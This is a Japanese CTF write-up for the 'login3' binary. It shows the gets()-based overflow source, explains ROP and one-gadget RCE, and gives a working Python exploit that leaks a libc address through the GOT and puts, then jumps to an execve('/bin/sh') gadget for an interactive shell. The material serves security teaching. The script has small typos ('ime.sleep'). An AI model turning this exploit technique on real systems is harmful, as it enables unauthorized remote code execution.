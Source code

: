 # login3
## ソースコード
```c
//  gcc login3.c -o login3 -fno-stack-protector -no-pie -fcf-protection=none
#include <stdio.h>
#include <string.h>
#include <unistd.h>

char *gets(char *s);

void setup()
{
    alarm(60);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main()
{
    char id[0x20] = "";

    setup();

    printf("ID: ");
    gets(id);

    if (strcmp(id, "admin") == 0)
        printf("Login Succeeded\n");
    else
        printf("Invalid ID\n");
}
```
## 問題の概要
パスワードは要求されず、IDとしてadminを入力するとログインできるがflagは出力されない。  
そもそもフラグを読み込んでいないので、どこに処理を飛ばしてもフラグを得ることはできない。  
そこで、/bin/shを実行して、コマンドを実行できるようにしてflagを探す。  


## One-gadget RCE
One-gadget RCE(Remote Code Execution)とは、libcに存在するガジェットで、そこに実行を移すだけで/bin/shが起動するアドレス。  
ここでガジェットとは、後述の、ROP(Return-oriented programming)で使用できる一塊の処理のことを指す。


## ASLRとその回避


## Return-oriented programming
Return-oriented programmingとは、スタックバッファオーバーフローから、関数の呼び出しやret直前のアドレスへのジャンプを重ねて目的の処理を実行する手法。  

## 攻略
login3のmain関数の実行時のスタックの内容は以下の通り。

|アドレス|サイズ|内容|
|:---|:---|:---|
|rdp-0x20|0x20|id|
|rdp|0x08|古いrdpの値|
|rdp+0x8|0x08|main関数からの戻り先のアドレス|  


これを以下のように書き換える。

|アドレス|サイズ|値|内容|
|:---|:---|:---|:---|
|rdp-0x20|0x20|aaaa...|id|
|rdp|0x08|aaaa...|古いrdpの値|
|rdp+0x8|0x08|0x4012d3|pop rdi; ret|
|rdp+0x10|0x08|0x404020|GOT の printf|
|rdp+0x18|0x08|0x401030|PLT の puts|
|rdp+0x20|0x08|0x4011e1|main|  


二回目のスタックバッファオーバーフローではrdp+0x8をOne-gadget RCEのアドレスに書き換える。  

問題サーバーのlibc-2.31.soをダウンロードして、printf関数とOne-gedget RCEのアドレスを調べる。  
その際、OneGadget(https://github.com/david942j/one_gadget)
と呼ばれるツールを使用する。  
```
objdump -T libc-2.31.so | grep ' printf'
bundle exec one_gadget /path/to/libc-2.31.so
```

```
:
0xe6af1 execve("/bin/sh", r15, rdx)
constraints:
[r15] == NULL || r15 == NULL
[rdx] == NULL || rdx == NULL
:
```
上記ガジェットを使用する。
## 攻略
ROPによる攻撃をPython3で実装する。
```python
import socket, time, struct, telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 10003))

ime.sleep(1)
print(s.recv(1000))
s.sendall(
    b'a'*0x28 +
    struct.pack('<Q', 0x4012d3) + # pop rdi
    struct.pack('<Q', 0x404020) + # printf
    struct.pack('<Q', 0x401030) + # puts
    struct.pack('<Q', 0x4011e1) + # main
    b'\n')

time.sleep(1)
d = s.recv(1000)
print(d)
printf = struct.unpack('<Q', d.split(b'\n')[1].ljust(8, b'\0'))[0]
print('printf: %x'%printf)

rce = (printf
    - 0x64e10 # printf
    + 0xe6af1) # One-gadget RCE

s.sendall(
    b'a'*0x28 +
    struct.pack('<Q', rce) +
    b'\n')

t = telnetlib.Telnet()
t.sock = s
t.interact()

```

